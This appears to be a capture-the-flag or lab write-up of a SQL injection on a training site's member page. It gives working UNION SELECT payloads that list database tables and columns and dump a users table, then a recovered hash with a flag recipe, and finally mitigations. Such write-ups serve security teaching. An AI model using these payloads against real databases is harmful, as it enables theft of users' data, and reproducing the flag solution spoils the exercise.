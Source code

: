 # The issue
Forms are not protected against SQL injection enabling us to get access to precious information.

## How to reproduce it on the website?
On page http://10.13.0.53/?page=member 

Enter `1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables`
in order to get all the tables.

Enter `1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns` in order to get the columns of tables.

Enter `1 AND 1=2 UNION SELECT Commentaire, countersign  FROM Member_Sql_Injection.users` to get information of the user tables.

You can see this text and just need to apply it:
```
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

## Why is it a problem?
You can access to the content of the different tables especially to the users' information.


## How to avoid it?
Use a good framework that prepare accordingly the sql requests.
Be sure to escape correctly special characters. Check for the data given versus the data type expected in the database. 



